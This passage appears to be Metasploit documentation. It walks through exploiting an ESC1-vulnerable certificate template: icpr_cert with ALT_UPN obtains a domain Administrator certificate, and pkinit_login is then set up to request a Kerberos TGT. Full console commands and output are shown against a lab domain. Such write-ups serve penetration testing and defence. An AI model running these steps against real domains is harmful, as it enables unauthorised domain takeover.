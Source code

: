 With this we now have a list of certificates that can be utilized for privilege escalation. The next step is to use the `ipcr_cert` module to request certificates for authentication using the vulnerable certificate templates.

## Using the ESC1 Vulnerability To Get a Certificate as the Domain Administrator
Getting a certificate as the current user is great, but what we really want to do is elevate privileges if we can. Luckly we can also do this with the `icpr_cert` module. We just need to also set the `ALT_UPN` option to specify who we would like to authenticate as instead. Note that this only works with ESC1 vulnerable certificate templates which is why we can do this here.

If we know the domain name is `daforest.com` and the domain administrator of this domain is named `Administrator` we can quickly set this up:

```
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC1-Template
CERT_TEMPLATE => ESC1-Template
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain DAFOREST
SMBDomain => DAFOREST
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normaluser
SMBPass => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normal
SMBUser => normal
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ALT_UPN Administrator@daforest.com
ALT_UPN => Administrator@daforest.com
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216143830_default_unknown_windows.ad.cs_338144.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

We can then use the `pkinit_login` module to gain a Kerberos ticket granting ticket (TGT) as the `Administrator` domain administrator:

```
msf6 auxiliary(admin/dcerpc/icpr_cert) > use auxiliary/admin/kerberos/pkinit_login
msf6 auxiliary(admin/kerberos/pkinit_login) > show options

Module options (auxiliary/admin/kerberos/pkinit_login):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   CERT_FILE                   yes       File containing a certificate (*.pfx) to authenticate with
   CERT_PASS                   no        Password for the Certificate file
   DOMAIN                      no        Override domain in certificate file
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/
                                         wiki/Using-Metasploit
   RPORT      88               yes       The target port
   Timeout    10               yes       The TCP timeout to establish connection and read data
   USERNAME                    no        Override username in certificate file


View the full module info with the info, or info -d command.
```